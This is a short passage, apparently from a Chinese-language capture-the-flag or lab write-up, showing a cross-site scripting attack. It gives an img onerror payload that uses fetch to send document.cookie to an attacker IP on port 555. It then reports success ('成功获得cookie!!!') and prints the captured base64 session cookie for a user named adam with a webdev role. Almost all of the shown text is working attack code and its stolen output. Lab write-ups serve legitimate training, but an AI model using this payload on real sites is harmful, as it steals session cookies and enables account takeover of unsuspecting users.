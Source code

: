 payload:

```html
<img src=x onerror="fetch('http://10.10.14.xx:555/?cookie='+document.cookie);" >
```

<figure><img src="../../.gitbook/assets/image (21).png" alt=""><figcaption></figcaption></figure>

成功获得cookie!!!

```
user_data=eyJ1c2VyX2lkIjogMiwgInVzZXJuYW1lIjogImFkYW0iLCAicm9sZSI6ICJ3ZWJkZXYifXw1OGY2ZjcyNTMzOWNlM2Y2OWQ4NTUyYTEwNjk2ZGRlYmI2OGIyYjU3ZDJlNTIzYzA4YmRlODY4ZDNhNzU2ZGI4
```

<figure><img src="../../.gitbook/assets/image (22).png" alt=""><figcaption></figcaption></figure>
